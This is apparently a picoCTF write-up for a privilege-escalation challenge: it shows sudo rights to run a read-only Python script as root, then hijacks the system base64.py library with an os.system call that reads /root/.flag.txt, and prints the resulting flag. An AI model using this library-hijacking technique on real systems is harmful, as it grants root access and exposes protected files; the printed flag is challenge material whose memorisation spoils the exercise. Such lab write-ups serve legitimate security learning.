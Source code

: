 # escalation
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

---

User picoctf may run the following commands on challenge:
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
We can run .server.py without password, but it is readonly.

---

import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip)
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
We can instead edit python libraries.

---

vi /lib/python3.8/base64.py
Add these lines

---

import os
os.system('cat /root/.flag.txt')
Run the python file.

---

sudo /usr/bin/python3 /home/picoctf/.server.py
picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}